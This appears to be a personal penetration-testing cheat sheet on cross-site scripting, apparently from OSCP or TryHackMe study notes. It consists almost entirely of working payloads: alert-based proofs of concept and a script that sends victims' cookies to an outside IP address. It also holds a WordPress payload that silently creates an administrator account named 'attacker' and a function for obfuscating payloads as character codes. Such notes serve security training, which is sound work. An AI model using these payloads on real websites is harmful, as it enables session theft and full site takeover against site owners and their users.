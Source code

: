 #webapp 

If the below characters are unfiltered then its vulnerable

```
< > ' " { } ;
```

### POC 
```js
<script>alert('THM');</script>
```

### POC with JS Comment

```js
';alert('THM');//
```

### XSS Polygot

[Polygot](D:\Books\OSCP\OSCP\WEB\Polygot_XSS.txt)

### Steal the cookie XSS

```js
<script>fetch('http://10.10.60.189:9001?cookie=' + btoa(document.cookie) );</script>
```


#### WordPress User Creation

```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

1.  Compress the code https://jscompress.com/ 
2. Encode It
```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

